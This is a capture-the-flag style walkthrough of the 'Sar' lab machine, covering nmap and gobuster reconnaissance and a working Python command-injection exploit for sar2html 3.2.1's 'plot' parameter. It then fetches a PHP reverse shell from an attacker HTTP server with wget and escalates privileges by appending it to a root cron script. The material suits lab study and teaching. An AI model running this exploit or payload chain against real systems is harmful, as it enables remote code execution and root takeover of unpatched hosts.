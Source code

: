 # Sar

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![42ab379f6a809ffe8484917aae278ebe.png](./_resources/7f72f5ad47394c36aab2a2a04e0849d3.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.131 -oN full_service_enum-sC.txt`
![99077d6337566a9dacfab871978e6f68.png](./_resources/ceac9e71650746b3b84bffa8119c058c.png)

`nmap -sV -sU -F  -oN udp-sC-sV.txt`

![b5040109f53646d85e2ba4b39ab82df1.png](./_resources/e22b29ee7b444b57abe4e663f9ac0a1a.png)

## 1.3 Web
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.196.131 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o info.txt`

### 1.3.2 Robots.txt and Sar2html
![fefda24968698a6f7a9db52a94e6cd60.png](./_resources/d4db09a2e93e4504aecaf68778e4bc31.png)
![10734a64042b69ed98f6b07cf2684102.png](./_resources/936510b6e8f74c6b8af7146f059f0abe.png)

For this app there are public exploits, but let's code it.

# 2 Exploitation (Testing for Command Injection - WSTG-INPV-12)
## 2.2 Coded exploit to gain RCE
Firts we should know what point of the source code is vulnerable:
![2824569ae5baa951aacf73ee2dc796eb.png](./_resources/2b1aa54a0f5c49d283aba80292cc012c.png)
![ea782e47d8895a5985e6d0f4356bcef0.png](./_resources/b1c080a4aea34f0a9b6743cf8879b46b.png)

The variable `plot` receive as GET method and concatenated into php vulnerable exec function. The argument for this command must be sanitized

Code:
```
# Script para php command injection - sar2html Ver 3.2.1 - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-
import requests
import re


def command_(command):
    #target = "https://192.168.196.131"
    target = ""
    
    cookies = {
        'PHPSESSID': '',
    }

    headers = {
        'Host': '192.168.196.131',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0',
    }

    params = (
    ('plot', ';'+command),
    )

    try:
        response = requests.get(target+'/sar2HTML/index.php', headers=headers, params=params, cookies=cookies, verify=False)
    except:
        print ("Connection error!")
    
    try:
        receive = re.findall("<option value=(.*?)>", response.text)
    except:
        print ("Error!")
    
    for i in receive:
	    if "There is no defined host..." not in i:
		    if "null selected" not in i:
		        if "selected" not in i:
		            print (i)
def main():
    while True:
        command = raw_input("[+] Shell ->:  ")
        command_(command)


main()
```
![80d9ab120a31979e93af5cdcc8e1b5d8.png](./_resources/0953e5d9aa1b425da61ca422c4289beb.png)

## 2.2 PHP Reverse shell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Download and edit the php reverse shell for point your ip and port.

`python3 -m http.server 8090` <- on the platform

`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target for rev shell download

Now you might execute it:
![c7908850dfc35583155688c7acffc4ec.png](./_resources/f7cca70b48754647a656cc9ba104f4af.png)
![974a4a55bd0d9d8186c7b86c52fd53ef.png](./_resources/12ac04997f3341c09a0ea8870ba5f323.png)


# 3 Post-exploitation (crontab abuse)
LinEnum.sh reveals some good information:
![ea46b5015f3eca4b40616d29dd23968c.png](./_resources/b01401b6ee2546cc83c2fb57fde3d8f4.png)
![5151113f8bd7b5dfaac69486e06e73e0.png](./_resources/a17774987f9349c4b8202d74fc6d4f02.png)

Let's edit write.sh file to gain shell:

`python3 -m http.server 8090` <- on the kali

`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target

`echo "php ./php-reverse-shell.php" >> write.sh` <- on the target
![54a351a9644ded50d5cf9af4934e55cb.png](./_resources/d23c9d3441f24410827b583b35e0f9c1.png)
